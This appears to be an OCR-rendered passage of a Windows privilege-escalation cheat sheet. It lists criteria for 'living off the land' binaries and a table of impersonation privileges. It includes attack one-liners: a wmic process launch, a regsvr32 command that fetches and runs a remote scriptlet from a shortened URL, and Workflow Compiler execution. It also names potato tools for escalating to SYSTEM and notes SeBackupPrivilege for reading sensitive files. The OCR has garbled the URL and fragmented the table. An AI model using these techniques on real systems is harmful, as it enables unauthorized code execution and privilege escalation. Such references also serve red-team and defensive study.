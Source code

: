 **Be a Microsoft-signed file, either native to the OS or downloaded from Microsoft. Have extra**

**"unexpected" functionality. It is not interesting to document intended use cases. Exceptions**

**are application whitelisting bypasses**

**Have functionality that would be useful to an APT or red team**

```
wmic.exe process call create calc
regsvr32 /s /n /u /i:https://tinyurl.com/ 2 a8yook3 scrobj.dll
Microsoft.Workflow.Compiler.exe tests.xml results.xml
```

### EoP - Impersonation Privileges

**Full privileges cheatsheet at https://tinyurl.com/2cv7an8v summary below will only list direct**

**ways to exploit the privilege to obtain an admin session or read sensitive files.**

**Privilege Impact To o l Execution path Remarks**

**SeAssignPrimaryToken Admin**

**3rd party**

**tool**

**"It would allow a user**

**to impersonate tokens**

**and privesc to nt**

**system using tools**

**such as potato.exe,**

**rottenpotato.exe and**

**juicypotato.exe"**

**Thank you Aurélien Chalot**

**for the update. I will try to**

**re-phrase it to something**

**more recipe-like soon.**

* May be more interesting

**if you can read**

**%WINDIR%\MEMORY.DMP**

* SeBackupPrivilege

**SeBackup Threat Built-in**

**commands**

**Read sensitve files**
